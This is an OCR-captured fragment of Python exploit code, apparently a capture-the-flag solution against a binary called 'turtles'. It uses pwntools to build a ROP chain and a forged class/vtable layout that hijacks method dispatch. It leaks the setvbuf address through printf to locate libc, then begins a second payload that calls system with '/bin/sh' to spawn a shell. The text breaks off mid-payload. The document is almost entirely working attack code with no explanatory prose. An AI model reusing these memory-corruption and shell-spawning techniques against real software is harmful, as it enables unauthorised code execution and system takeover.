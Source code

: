 ```py  

rop_adjust4 = 0x00400d3c  
rop_rdi = 0x00400d43  
rop_rsi_r15 = 0x00400d41

method = rop_adjust4

base_vtable = 0x90  
base_data = 0x80  
rop_chain = b"CCCCCCCC"

printf_plt = 0x4009D0  
setvbuf_got = 0x601288

rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)  
rop.raw(setvbuf_got)  
rop.raw(0)

rop.raw(printf_plt)  
rop.raw(main_addr)

data = b"%sEND"

payload = (  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)

r.send(payload.ljust(200, b'A'))

setvbuf_addr = u64(r.readuntil(b"END")[:-3].ljust(8, b"\0"))  
print("setvbuf address: 0x{:016x}".format(setvbuf_addr))

libc.address = setvbuf_addr - libc.symbols[b"setvbuf"]  
print("system address: 0x{:016x}".format(libc.symbols[b"system"]))

data = b"/bin/sh"

r.readuntil(b": ")  
turtle = int(r.readline(), 16)  
print("turtle address: 0x{:016x}".format(turtle))

method = rop_adjust4  
rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)  
rop.raw(libc.symbols[b"system"])  
rop.raw(0x4343434343434343)

payload = (  
```